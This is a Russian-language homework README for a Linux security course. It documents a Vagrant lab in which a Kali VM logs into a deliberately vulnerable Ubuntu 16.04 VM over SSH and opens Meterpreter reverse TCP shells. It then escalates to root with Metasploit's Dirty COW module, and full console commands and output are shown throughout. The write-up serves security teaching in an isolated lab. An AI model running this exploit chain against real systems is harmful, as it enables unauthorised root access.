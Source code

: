 Домашние задания по курсу "Безопасность Linux"
===============================================

ДЗ 3 - dirtycow exploit - centos, ubuntu, metasploit
-----------------------------------------------

1. Centos
2. Ubuntu
3. Metasploit
- использовал материалы
https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/
https://null-byte.wonderhowto.com/how-to/get-root-with-metasploits-local-exploit-suggester-0199463/

в vagrantfile плейбуками ansible 
- поднимаем уязвимую vm nodebuntu на ubuntu 16.04 с ядром 4.4.0-42 (nodebuntu/bootstrap.yml), ip 192.168.99.102
- создаем на vm nodebuntu пользователя otus с обычными правами и паролем vic!!vak

- поднимаем vm nodeintruder на kali/rolling 2020.1 (nodeintruder/bootstrap.yml)
- копируем эксплоит (nodeintruder/msf/dirtycow_priv_exc.rb) в папку metasploit 

- заходим на nodeintruder: vagrant ssh nodeintruder
- запускаем консоль msf: msfconsole -q
- создаем сессию ssh с vm nodebuntu (192.168.99.102):
<code>
    msf5 > use auxiliary/scanner/ssh/ssh_login
    msf5 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.99.102
    rhosts => 192.168.99.102
    msf5 auxiliary(scanner/ssh/ssh_login) > set username otus
    username => otus
    msf5 auxiliary(scanner/ssh/ssh_login) > set password vic!!vak
    password => vic!!vak
    msf5 auxiliary(scanner/ssh/ssh_login) > run

    [+] 192.168.99.102:22 - Success: 'otus:vic!!vak' ''
    [*] Command shell session 1 opened (192.168.99.103:38379 -> 192.168.99.102:22) at 2020-02-26 15:23:30 -0500
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    msf5 auxiliary(scanner/ssh/ssh_login) > sessions

    Active sessions
    ===============

    Id  Name  Type           Information                            Connection
    --  ----  ----           -----------                            ----------
    1         shell unknown  SSH otus:vic!!vak (192.168.99.102:22)  192.168.99.103:38379 -> 192.168.99.102:22 (192.168.99.102)
</code>

- апгрейдим сессию в meterpreter
<code>
    msf5 auxiliary(scanner/ssh/ssh_login) > sessions -u 1
    [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

    [!] SESSION may not be compatible with this module.
    [*] Upgrading session ID: 1
    [*] Starting exploit/multi/handler
    [*] Started reverse TCP handler on 192.168.99.103:4433 
    [*] Sending stage (985320 bytes) to 192.168.99.102
    [*] Meterpreter session 2 opened (192.168.99.103:4433 -> 192.168.99.102:41734) at 2020-02-26 15:28:41 -0500
    [-] Failed to start exploit/multi/handler on 4433, it may be in use by another process.
    msf5 auxiliary(scanner/ssh/ssh_login) > sessions -l

    Active sessions
    ===============

    Id  Name  Type                   Information                                                Connection
    --  ----  ----                   -----------                                                ----------
    1         shell unknown          SSH otus:vic!!vak (192.168.99.102:22)                      192.168.99.103:38379 -> 192.168.99.102:22 (192.168.99.102)
    2         meterpreter x86/linux  uid=1001, gid=1001, euid=1001, egid=1001 @ 192.168.99.102  192.168.99.103:4433 -> 192.168.99.102:41734 (192.168.99.102)
</code>

- убедимся, что сессия запущена из под пользователя otus
<code>
    msf5 auxiliary(scanner/ssh/ssh_login) > sessions -i 2
    [*] Starting interaction with 2...

    meterpreter > shell
    Process 10451 created.
    Channel 71 created.
    id
    uid=1001(otus) gid=1001(otus) groups=1001(otus)
    exit
    meterpreter > 
    Background session 2? [y/N]  
</code>

- смотрим, что нам может посоветовать metasploit suggester в данной ситуации
<code>
    msf5 auxiliary(scanner/ssh/ssh_login) > use post/multi/recon/local_exploit_suggester 
    msf5 post(multi/recon/local_exploit_suggester) > set session 2
    session => 2
    msf5 post(multi/recon/local_exploit_suggester) > run

    [*] 192.168.99.102 - Collecting local exploits for x86/linux...
    [*] 192.168.99.102 - 35 exploit checks are being tried...
    [+] 192.168.99.102 - exploit/linux/local/bpf_sign_extension_priv_esc: The target appears to be vulnerable.
    [+] 192.168.99.102 - exploit/linux/local/dirtycow: The target appears to be vulnerable.
    [+] 192.168.99.102 - exploit/linux/local/dirtycow_priv_esc: The target appears to be vulnerable.
    [+] 192.168.99.102 - exploit/linux/local/glibc_realpath_priv_esc: The target appears to be vulnerable.
    [+] 192.168.99.102 - exploit/linux/local/network_manager_vpnc_username_priv_esc: The service is running, but could not be validated.
    [+] 192.168.99.102 - exploit/linux/local/pkexec: The service is running, but could not be validated.
    [*] Post module execution completed
</code>

- наблюдаем, среди прочего эксплоит dirtycow_priv_esc
- выбираем этот эксплоит, устанавливаем сессию, в которой запустим эксплоит, payload и параметры подключения
<code>
    msf5 post(multi/recon/local_exploit_suggester) > use exploit/linux/local/dirtycow_priv_esc
    msf5 exploit(linux/local/dirtycow_priv_esc) > set session 2
    session => 2
    msf5 exploit(linux/local/dirtycow_priv_esc) > set payload linux/x86/meterpreter/reverse_tcp
    payload => linux/x86/meterpreter/reverse_tcp
    msf5 exploit(linux/local/dirtycow_priv_esc) > set lhost 192.168.99.103
    lhost => 192.168.99.103
    msf5 exploit(linux/local/dirtycow_priv_esc) > set lport 4321
    lport => 4321
</code>

- запускаем эксплоит
<code>
    [*] Started reverse TCP handler on 192.168.99.103:4321 
    [*] Writing '/tmp/.KvJCwYJAgaw.c' (3077 bytes) ...
    [-] Compiling failed:
    /tmp/.KvJCwYJAgaw.c: In function 'procselfmemThread':
    /tmp/.KvJCwYJAgaw.c:64:14: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [-Wint-conversion]
        lseek(f, map, SEEK_SET);
                ^
    In file included from /tmp/.KvJCwYJAgaw.c:8:0:
    /usr/include/unistd.h:337:16: note: expected '__off_t {aka long int}' but argument is of type 'void *'
    extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                    ^
    /tmp/.KvJCwYJAgaw.c: In function 'main':
    /tmp/.KvJCwYJAgaw.c:94:3: warning: implicit declaration of function 'asprintf' [-Wimplicit-function-declaration]
    asprintf(&backup, "cp %s /tmp/.mrSSZhTstx", suid_binary);
    ^
    /tmp/.KvJCwYJAgaw.c:98:3: warning: implicit declaration of function 'fstat' [-Wimplicit-function-declaration]
    fstat(f,&st);
    ^
    [*] Launching exploit...
    [*] Sending stage (985320 bytes) to 192.168.99.102
    [*] Meterpreter session 3 opened (192.168.99.103:4321 -> 192.168.99.102:60974) at 2020-02-26 15:59:13 -0500

    meterpreter > 
    [*] Setting '/proc/sys/vm/dirty_writeback_centisecs' to '0'...

    Background session 3? [y/N]  

</code>

- игнорируем ответ "compiling failed" - т.к. в выводе компилятора только предупреждения. 
- убеждаемся в успехе - смотрим открытую сессию 3, запускаем uname -a, id и т.п
<code>
    msf5 exploit(linux/local/dirtycow_priv_esc) > sessions -i 3
    [*] Starting interaction with 3...

    meterpreter > shell
    Process 3696 created.
    Channel 1 created.
    uname -r
    4.4.0-42-generic
    uname -a
    Linux nodebuntu 4.4.0-42-generic #62-Ubuntu SMP Fri Oct 7 23:11:45 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
    id
    uid=0(root) gid=0(root) groups=0(root),1001(otus)
</code>
